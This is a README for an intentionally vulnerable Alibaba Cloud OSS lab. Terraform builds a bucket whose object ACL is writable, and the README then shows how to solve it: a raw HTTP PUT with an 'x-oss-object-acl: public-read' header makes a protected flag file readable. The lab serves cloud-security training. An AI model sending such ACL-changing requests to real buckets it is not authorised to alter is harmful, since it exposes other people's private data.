



# Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenario for storage bucket objects

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/oss/object_acl_writable/ 
```

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```bash
terraform init
terraform apply
```

After confirming that there are no problems, type yes and enter to quickly build

Access the /flag.txt of this bucket directly


```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*



The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```



Successfully modified the object's ACL, now use the GET method to get



## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction
